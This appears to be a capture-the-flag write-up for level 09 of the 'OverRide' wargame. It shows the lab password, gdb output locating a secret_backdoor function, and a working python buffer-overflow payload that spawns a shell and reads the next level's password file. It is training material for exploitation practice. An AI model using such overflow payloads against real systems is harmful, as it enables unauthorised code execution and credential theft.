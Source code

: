 # Level 09
*password : fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S*

## Analyze

```
scp -P 4242 level09@192.168.56.109:level09 binary/
```

## Buffer overflow

- exploit strncpy : n = buffer[180]
    - buffer[180] is filled by username

```
(gdb) info funct secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
`secret_backdoor()` address : 0x000055555555488c\
- find offset : 200 
- compute buffer[180] : 200 + 8 = 208 (= d0 in hexadecimal)

```
$ python -c 'print "\x41" * 40 + "\xd0" + "\n" + "\x41" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"' > /tmp/level09 ; cat /tmp/level09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
```
$ su end
Password: 
end@OverRide:~$ cat end
GG !
```
